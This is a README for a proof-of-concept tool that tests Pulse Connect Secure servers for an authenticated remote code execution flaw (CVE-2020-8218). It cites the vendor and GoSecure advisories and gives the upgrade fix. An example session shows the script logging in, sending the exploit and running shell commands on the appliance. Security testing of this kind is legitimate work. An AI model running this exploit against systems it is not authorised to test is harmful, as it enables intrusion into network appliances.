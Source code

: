 # pulse-gosecure-rce

Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218).

This tool was built around the POC from the GoSecure advisory (see refs). All credit to them for the finding.

As recommended by Pulse Secure:
"The solution for these vulnerabilities is to upgrade the Pulse Connect Secure and Pulse Policy Secure server software version to the 9.1R8. This following PCS/PPS version can be downloaded from https://my.pulsesecure.net."

Author:
DK @withdk

Refs:
* https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44516/?kA23Z000000L6i5SAC
* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

```
Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
```
